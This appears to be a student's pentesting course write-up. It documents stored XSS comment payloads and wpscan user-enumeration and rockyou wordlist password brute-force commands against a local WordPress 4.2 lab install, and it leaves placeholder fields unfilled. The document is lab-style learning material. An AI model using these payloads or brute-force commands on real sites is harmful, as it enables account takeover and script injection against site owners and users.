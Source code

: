 # Project 7 - WordPress Pentesting

Time spent: **6** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Vulnerability Name or ID
  - [x] Summary: exploited vulnerability to stored XSS through a comment
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.3
  - [x] GIF Walkthrough: https://imgur.com/a/xWQw0
  - [x] Steps to recreate: 
		1. go to wpdistillery.local;
		2. go to comment section of a post;
		3. comment: "<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;
		top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>"
		
		<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>
  - [x] Affected source code: core wp
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Required) Vulnerability Name or ID
  - [x] Summary: exploited vulnerability to XSS through a comment
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.3
  - [x] GIF Walkthrough: https://imgur.com/a/BpbID
  - [x] Steps to recreate: 
		1. go to wpdistillery.local;
		2. go to comment section of a post;
		3. comment: <script>alert('XSS');</script>
  - [x] Affected source code: core wp
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Required) Vulnerability Name or ID
  - [x] Summary: exploited vunerability to enumeration through wpscan in kali linux terminal
    - Vulnerability types: user enumeration
    - Tested in version: 4.2
    - Fixed in version: 4.7
  - [x] GIF Walkthrough: https://imgur.com/a/EqxpY
  - [x] Steps to recreate: 
		1. open terminal;
		2. use command: wpscan --enumerate u --url wpdistillery.local;
		3. download text file rockyou-75.txt;
		4. use command: wpscan --url wpdistillery.local --wordlist '/root/rockyou-75.txt' --username admin

  - [x] Affected source code: core wp
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)


## Assets

List any additional assets, such as scripts or files
rockyou-75.txt

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work
encountered substaintial difficulties installing the wordpress software
encountered difficulties when attempting to use wpdistillery.dev and needed to use wpdistillery.local
encountered difficulties when attempting to switch between versions and needed to completely reinstall the software

## License

    Copyright [2017] [Beck Galbraith]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
